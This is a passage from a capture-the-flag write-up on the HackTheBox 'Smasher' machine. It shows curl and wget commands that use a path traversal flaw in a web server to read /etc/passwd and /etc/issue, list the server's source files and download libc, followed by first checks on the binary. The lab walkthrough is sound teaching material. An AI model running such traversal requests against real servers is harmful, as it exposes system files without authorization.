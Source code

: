 ```bash
	systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
	systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
	systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
	systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
	syslog:x:104:108::/home/syslog:/bin/false
	_apt:x:105:65534::/nonexistent:/bin/false
	messagebus:x:106:110::/var/run/dbus:/bin/false
	uuidd:x:107:111::/run/uuidd:/bin/false
	sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
	www:x:1000:1000:www,,,:/home/www:/bin/bash
	smasher:x:1001:1001:,,,:/home/smasher:/bin/bash
```	
Looks like we have Path Traversal vulnerability in servers code. Nice, but what can we do with it?
I'll cut all my failed searches and ideas, in the end i found actual http server code and binary (Yaaay!)

```bash
	[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//home/www/tiny-web-server/ | sed -e 's/<[^>]*>//g'
	.git/2018-03-31 00:57[DIR]
	public_html/2018-03-31 00:57[DIR]
	tiny.c2018-03-31 00:5713.2K
	README.md2018-03-31 00:571.0K
	tiny2018-03-31 00:5744.4K
	Makefile2018-03-31 00:57175
```

Downloaded all of them. Great thing is that we have actual source code, which will speed up the whole process. Next i wanted to see, because i knew what my target was, is ASLR on the server enabled, and what can i do about it?

First, i've checked version of the system:

```sh
	[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//etc/issue
	Ubuntu 16.04.4 LTS \n \l
```

After that i tried to read /proc/sys/kernel/randomize_va_space, and for some reason ( permissions) i couldn't read that file.
So i assumed the worst, and tried to get libc.so.6 so i can use it later.

```sh	
	wget http://10.10.10.89:1111//lib/x86_64-linux-gnu/libc.so.6
```

So, now, what i usually like to do is, identify version of libc, in this case i've had access to /etc/issue so i already know, i procceded futher to get docker container with radare2, ropper, pwndbg and libc-database, and few other tools, up and running on Ubuntu 16.04 x64.
Let's start analysing tiny file, which is the binary for web server.

```sh
	root@--name:/ctf/work$ file tiny
	tiny: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b872377623aa9e081bc7d72c8dbe882f03bf66b7, not stripped
	
	root@--name:/ctf/work$ ldd tiny
	linux-vdso.so.1 =>  (0x00007ffc7b9a4000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f846ddf0000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f846e1ba000)
```
